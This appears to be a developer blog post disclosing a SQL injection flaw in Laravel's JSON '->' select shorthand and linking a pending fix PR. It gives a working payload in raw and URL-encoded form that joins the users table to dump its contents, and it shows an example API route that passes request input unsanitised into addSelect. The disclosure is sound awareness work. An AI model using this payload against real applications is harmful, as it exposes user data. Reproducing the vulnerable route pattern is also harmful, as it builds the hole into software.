 Laravel has the ability to manually specify which columns to select on a query.
It also offers a nice shorthand to work with JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') FROM blogs;
```

Instead of manually writing `JSON_EXTRACT`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `JSON_EXTRACT` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail, but what about the next one?

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, here is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Users of this API might only be interested in a few fields, 
that's why we added a `fields` filter.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

What if we inserted our malicious code instead?

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to write to the `addSelect` or `select`.
Chances are you're not doing this manually in your project.
Though there are popular packages which allow this functionality to provide easy API endpoints.
A popular spec that inspires lots of API related packages is the JSON API spec. It specifically allows for [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets).
- The entry point table must have a column with JSON data. 
Otherwise the `JSON_EXTRACT` function will fail, stopping our query. 
From the entry point though, you can access all data.

As far as I can tell, it's not possible to write to the database with this approach, 
as Laravel only allows one query to be executed. 
If you're inserting `;` to end the current query and start a new one, you'll get an error.

I've submitted a PR to fix this issue, at the moment of writing, it's still pending:
[https://github.com/laravel/framework/pull/28160](*https://github.com/laravel/framework/pull/28160).

